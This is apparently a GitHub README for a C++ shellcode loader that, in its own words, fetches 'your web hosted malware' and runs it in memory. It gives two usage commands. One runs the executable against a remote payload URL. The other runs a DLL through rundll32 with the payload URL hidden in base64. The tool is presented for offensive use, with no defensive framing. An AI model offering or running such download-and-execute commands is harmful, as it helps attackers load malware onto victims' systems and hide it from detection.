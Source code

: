 # Ryan's Remote Loader

Custom shellcode loader written in C++. This will grab your web hosted malware and run it in memory.

This project is password protected at this time.

![alt text](https://github.com/ryansisco/RyansRemoteLoader/blob/main/GIF.gif)

## Examples:
RRL.exe will take the remote bin file as a parameter like:
`RRL.exe http://10.0.0.54/pwn.bin`

This can also be run as a DLL using a base64 encoded parameter: 
`rundll32.exe RRLDLL.dll,Driver aHR0cDovLzEwLjAuMC41NC9wd24uYmluCg==`
